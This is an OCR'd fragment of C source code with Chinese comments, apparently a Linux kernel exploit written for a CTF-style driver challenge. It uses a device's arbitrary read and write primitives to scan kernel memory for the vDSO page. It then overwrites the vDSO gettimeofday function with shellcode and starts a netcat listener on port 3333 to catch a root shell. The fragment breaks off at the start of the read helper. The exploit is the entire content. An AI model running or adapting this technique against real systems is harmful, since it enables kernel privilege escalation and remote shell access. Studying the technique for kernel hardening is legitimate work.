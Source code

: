 ```
 
   char *buf = (char *)calloc(1,0x1000);
 
 
   int gettimeofday_str_offset = get_gettimeofday_str_offset();
   printf("gettimeofday str in vdso.so offset=0x%x\n",gettimeofday_str_offset);
   size_t vdso_addr = -1;
   for (size_t addr=0xffffffff80000000;addr < 0xffffffffffffefff;addr += 0x1000) {
      //读取一页数据
      arbitrary_read(devFD,0x1000,buf,addr);
      //如果在对应的偏移处，正好是这个字符串，那么我们就能确定当前就是vdso的地址
      //之所以能确定，是因为我们每次读取了0x1000字节数据，也就是1页，而vdso的映射也只是1页
      if (!strcmp(buf+gettimeofday_str_offset,"gettimeofday")) {
         printf("[+]find vdso.so!!\n");
         vdso_addr = addr;
         printf("[+]vdso in kernel addr=0x%lx\n",vdso_addr);
         break;
      }
   }
   if (vdso_addr == -1) {
      printf("[-]can't find vdso.so!!\n");
   }
   size_t gettimeofday_addr = vdso_addr + GETTIMEOFDAY_FUN;
   printf("[+]gettimeofday function in kernel addr=0x%lx\n",gettimeofday_addr);
   //将gettimeofday处写入我们的shellcode，因为写操作在内核驱动里完成，内核可以读写执行vdso
   //用户只能读和执行vdso
   arbitrary_write(devFD,strlen(shellcode),shellcode,gettimeofday_addr);
   sleep(1);
   printf("[+]open a shell\n");
   system("nc -lvnp 3333");
   return 0;
}
 
 
int openDev(char* pos){
    int devFD;
    printf("[+] Open %s...\n",pos);
    if ((devFD = open(pos, O_RDWR)) < 0) {
        printf("    Can't open device file: %s\n",pos);
        exit(1);
    }
    return devFD;
}
 
 
//获取vdso里的字符串"gettimeofday"相对vdso.so的偏移
int get_gettimeofday_str_offset() {
   //获取当前程序的vdso.so加载地址0x7ffxxxxxxxx
   size_t vdso_addr = getauxval(AT_SYSINFO_EHDR);
   char* name = "gettimeofday";
   if (!vdso_addr) {
      printf("[-]error get name's offset\n");
   }
   //仅需要搜索1页大小即可，因为vdso映射就一页0x1000
   size_t name_addr = memmem(vdso_addr, 0x1000, name, strlen(name));
   if (name_addr < 0) {
      printf("[-]error get name's offset\n");
   }
   return name_addr - vdso_addr;
}
 
void arbitrary_read(int devFD,int len,char *buf,size_t addr)
{
```
